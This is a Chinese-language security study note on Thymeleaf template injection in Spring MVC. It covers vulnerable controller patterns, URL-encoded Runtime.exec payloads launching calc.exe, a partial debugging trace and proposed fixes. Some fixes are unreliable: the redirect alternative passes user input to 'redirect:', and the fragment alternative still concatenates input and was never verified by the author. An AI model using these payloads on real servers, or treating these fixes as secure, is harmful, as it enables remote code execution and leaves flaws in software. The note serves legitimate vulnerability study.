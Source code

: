 ### 应用场景

* thymeleaf有几个典型的应用场景，这几个场景也伴容易产生模板注入

#### 选择模板

* 场景：例如，国际化语言切换。定义 CN 模板和 EN 模板，通过修改 lang 的参数来实现中英文页面展示

* 访问/path?lang=，lang作为模板路径的一部分拼接

```java
    public String path(@RequestParam String lang) {
        return "user/" + lang + "/welcome"; //template path is tainted
    }
```

* payload：/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc.exe%22).getInputStream()).next()%7d__::.x

#### 片段选择器

* 场景：在thymeleaf的模板文件中，可以自定义片段，在其他模板文件中可以对这些片段进行引用和复用。下面的例子在header.html中定义了名为header的片段，在home.html进行了引用。这种设计在**页面局部刷新**、**动态内容加载**等场景下经常使用。

```html
<!-- 模板文件：header.html -->
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>My Website</title>
</head>
<body>
    <!-- 定义头部片段 -->
    <div th:fragment="header">
        <header>
            <h1>Welcome to My Website</h1>
            <nav>
                <ul>
                    <li><a th:href="@{/home}">Home</a></li>
                    <li><a th:href="@{/about}">About</a></li>
                    <li><a th:href="@{/contact}">Contact</a></li>
                </ul>
            </nav>
        </header>
    </div>
</body>
</html>
```

```html
<!-- 模板文件：home.html -->
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>Home Page</title>
</head>
<body>
    <!-- 引用头部片段 -->
    <div th:replace="fragments/header :: header"></div>

    <!-- 页面内容 -->
    <div>
        <p>This is the home page content.</p>
        <!-- 其他页面内容 -->
    </div>
</body>
</html>
```

* 代码return "welcome : :"+section ，welcome是模板文件的文件名，而section则动态选择了一个片段，这段代码动态地返回了welcome模板文件的某个片段

```java
 @GetMapping("/fragment")
    public String fragment(@RequestParam String section) {
        return "welcome :: " + section;
    }
```

* payload:/fragment?section=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc.exe").getInputStream()).next()%7d__::.x

#### 拼接路径

* 场景：和选择模板类似

```java
@GetMapping("/doc/{document}")
    public void getDocument(@PathVariable String document) {
        log.info("Retrieving " + document);
        //returns void, so view name is taken from URI
    }
```

* payload: /doc/__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc.exe").getInputStream()).next()%7d__::.x

#### 容易忽略的错误

* 这里利用document传入payload

```java
@GetMapping("/doc/{document}")
    public void getDocument(@PathVariable String document) {
        log.info("Retrieving " + document);
        //returns void, so view name is taken from URI
    }
```

* 这里则不存在漏洞，document并没有被拼接到路径中

```java
@GetMapping("/doc/{document}")
    public String getDocument(@PathVariable String document, HttpServletResponse response) {
        log.info("Retrieving " + document);
        return "welcome";
    }
```



### 漏洞分析（分析未完成）

#### SpringMVC视图解析过程

* 调试记录：在return "welcome :: " + section;下断点，step into，注意这是一个层层return的过程而不是正向调用的过程

  * InvocableHandlerMethod.java#doInvoke{... return  getBridgedMethod().invoke(getBean(), args);...}`doInvoke` 方法是 `InvocableHandlerMethod` 中用于实际调用处理方法的地方。在这里，`getBridgedMethod().invoke(getBean(), args)` 调用了被代理的控制器方法。**注意args是http请求中的参数包含section**
  * InvocableHandlerMethod.java#invokeForRequest{... return Invoke(args); ...}调用了被代理的控制器方法**args参数同上**
  * ServletInvocableHandlerMethod#invokeAndHandle{。。。Object returnValue = invokeForRequest(webRequest, mavContainer, providedArgs); 。。。}**returnValue为调用Controller的结果，传入section=header，这里的值为welcome :: header**
  * 中间还有一些其它代码跳过了，现在专注于returnValue的传递

  ```java
  public void invokeAndHandle(ServletWebRequest webRequest, ModelAndViewContainer mavContainer, Object... providedArgs) throws Exception {
          //调用Controller后获取返回值到returnValue中
          Object returnValue = this.invokeForRequest(webRequest, mavContainer, providedArgs);
          this.setResponseStatus(webRequest);
          //判断returnValue是否为空
          if (returnValue == null) {
              //判断RequestHandled是否为True
              if (this.isRequestNotModified(webRequest) || this.getResponseStatus() != null || mavContainer.isRequestHandled()) {
                  this.disableContentCachingIfNecessary(webRequest);
                  //设置RequestHandled属性
                  mavContainer.setRequestHandled(true);
                  return;
              }
          } else if (StringUtils.hasText(this.getResponseStatusReason())) {
              mavContainer.setRequestHandled(true);
              return;
          }
          mavContainer.setRequestHandled(false);
          Assert.state(this.returnValueHandlers != null, "No return value handlers");
          try {
          //通过handleReturnValue根据返回值的类型和返回值将不同的属性设置到ModelAndViewContainer中。
              this.returnValueHandlers.handleReturnValue(returnValue, this.getReturnValueType(returnValue), mavContainer, webRequest);
          } catch (Exception var6) {
              if (logger.isTraceEnabled()) {
                  logger.trace(this.formatErrorForReturnValue(returnValue), var6);
              }
              throw var6;
          }
  ```

  * 这里关注this.returnValueHandlers.handleReturnValue(returnValue, this.getReturnValueType(returnValue), mavContainer, webRequest);

  ```java
  @Override
  	public void handleReturnValue(@Nullable Object returnValue, MethodParameter returnType,
  			ModelAndViewContainer mavContainer, NativeWebRequest webRequest) throws Exception {
  
  		HandlerMethodReturnValueHandler handler = selectHandler(returnValue, returnType);
  		if (handler == null) {
  			throw new IllegalArgumentException("Unknown return value type: " + returnType.getParameterType().getName());
  		}
  		handler.handleReturnValue(returnValue, returnType, mavContainer, webRequest);
  	}
  ```

  



### 漏洞修复

* 漏洞产生的核心原因是前端输入的不可信数据在后端作为视图路径的一部分进行解析，修复也很简单，就是不要将前端传入的参数作为视图路径的解析，对于之前介绍的集中有模板注入风险的写法用其他写法代替
* 网上广为流传的三种修复方式我实在是看不懂，它们说到底只是遵从了 “不将前端输入的不可信数据在后端作为视图路径的一部分进行解析”这一原则而已，真正的关键的是为那些为了实现功能违反安全原则的情景提出替代方案



* 选择模板、拼接路径的替代方案：不在后端做模板路径的解析，仅仅是产生url，让前端重定向访问该模板

```java
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
  return "redirect:" + url; //FP as redirects are not resolved asexpressions
}
```

* 片段选择：这里的做法是不解析模板路径，而直接以绝对路径解析模板内容，但我没有复现成功，不知道是版本问题还是设置问题，抑或说这个方法本身就是不合理的

```java
@Autowired
    private TemplateEngine templateEngine;

    @GetMapping("/getFragment")
    public ResponseEntity<String> getFragment(@RequestParam String fragmentName) {
        // 创建上下文，可以添加模型数据
        Context context = new Context();
        context.setVariable("data", "Hello from " + fragmentName + "!");

        // 使用Thymeleaf模板引擎处理模板
        String fragment = templateEngine.process("welcome :: "+ fragmentName, context);

        // 返回响应
        HttpHeaders headers = new HttpHeaders();
        headers.setContentType(MediaType.TEXT_HTML);
        return new ResponseEntity<>(fragment, headers, HttpStatus.OK);
    }
```

* 容易忽略的错误:  

  * 配置ResponseBody或RestController注解

  ```java
  @GetMapping("/doc/{document}")
      @ResponseBody
      public void getDocument(@PathVariable String document) {
          log.info("Retrieving " + document);
          //returns void, so view name is taken from URI
      }
  ```

  

  * ### 方法参数中设置HttpServletResponse 参数

```java
@GetMapping("/doc/{document}")
    public void getDocument(@PathVariable String document, HttpServletResponse response) {
        log.info("Retrieving " + document);
    }
```

